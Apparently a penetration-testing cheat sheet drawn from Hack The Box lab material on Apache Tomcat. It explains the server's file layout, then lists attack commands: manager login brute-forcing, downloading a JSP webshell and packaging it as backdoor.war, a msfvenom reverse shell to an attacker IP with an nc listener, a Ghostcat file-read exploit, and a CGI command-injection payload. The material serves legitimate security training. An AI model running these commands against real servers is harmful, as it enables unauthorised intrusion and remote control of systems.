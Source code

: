 ## Info

**Manager**:`/manager`

```jsx
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
        └── localhost
```

The `bin` folder stores scripts and binaries needed to start and run a Tomcat server. The `conf` folder stores various configuration files used by Tomcat. The `tomcat-users.xml` file stores user credentials and their assigned roles. The `lib` folder holds the various JAR files needed for the correct functioning of Tomcat. The `logs` and `temp` folders store temporary log files. The `webapps` folder is the default webroot of Tomcat and hosts all the applications. The `work` folder acts as a cache and is used to store data during runtime.

Each folder inside `webapps` is expected to have the following structure.

```
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class

```

The most important file among these is `WEB-INF/web.xml`

```
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE web-app PUBLIC "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN" "http://java.sun.com/dtd/web-app_2_3.dtd">

<web-app>
  <servlet>
    <servlet-name>AdminServlet</servlet-name>
    <servlet-class>com.inlanefreight.api.AdminServlet</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/admin</url-pattern>
  </servlet-mapping>
</web-app>
```

All compiled classes used by the application should be stored in the WEB-INF/classes folder. These classes might contain important business logic as well as sensitive information. Any vulnerability in these files can lead to total compromise of the website. The lib folder stores the libraries needed by that particular application. The jsp folder stores Jakarta Server Pages (JSP), formerly known as JavaServer Pages, which can be compared to PHP files on an Apache server.

The `tomcat-users.xml` file is used to allow or disallow access to the `/manager` and `host-manager` admin pages.

The file shows us what each of the roles `manager-gui`, `manager-script`, `manager-jmx`, and `manager-status` provide access to.

## Enumeration

**Version Fingerprinting**

`L3pr3ch4un@htb[/htb]$ curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat`

**Directory Busting**

`L3pr3ch4un@htb[/htb]$ gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`

**Login Brute forcing**

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

`Wordlists`

- User: /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
- Pass: /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt

**Code Execution**

Shell:`https://github.com/SecurityRiskAdvisors/cmd.jsp`

![](https://academy.hackthebox.com/storage/modules/113/vt2.png)

```
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backdoor.war cmd.jsp 
```

This file is uploaded to the manager GUI, after which the `/backdoor` application will be added to the table.

`[!bash!]$ curl http://web01.inlanefreight.local:8180/backup/backdoor.jsp?cmd=id`

**Reverse Shell**

```
[!bash!]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backdoor.war
```

Listner: `nc -lnvp 4443`

**Automation**

`exploit/multi/http/tomcat_mgr_upload/`

## Vulnerabilities

**CVE-2020-1938 : Ghostcat**

- Versions before 9.0.31, 8.5.51, and 7.0.100
- https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi
- `[!bash!]$ python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml`

## Tomcat CGI

CVE-2019-0232 is a critical security issue that could result in remote code execution. This vulnerability affects Windows systems that have the enableCmdLineArguments feature enabled. An attacker can exploit this vulnerability by exploiting a command injection flaw resulting from a Tomcat CGI Servlet input validation error, thus allowing them to execute arbitrary commands on the affected system. Versions 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93 of Tomcat are affected.

**Note**: This option should be enabled `enableCmdLineArguments`

`http://example.com/cgi-bin/hello.bat?&dir`

```
L3pr3ch4un@htb[/htb]$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
L3pr3ch4un@htb[/htb]$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```








